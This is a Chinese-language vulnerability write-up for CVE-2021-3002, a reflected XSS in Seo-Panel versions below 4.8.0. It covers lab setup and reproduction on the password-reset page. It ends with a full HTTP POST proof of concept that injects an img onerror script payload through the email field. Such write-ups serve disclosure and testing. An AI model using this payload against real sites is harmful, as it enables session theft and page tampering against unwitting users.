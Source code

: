 # Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](./images/202202101924919.png)

## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)

![](./images/202202101924473.png)



成功弹窗 ,造成 反射型XSS 漏洞



## 漏洞POC



请求包如下



```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```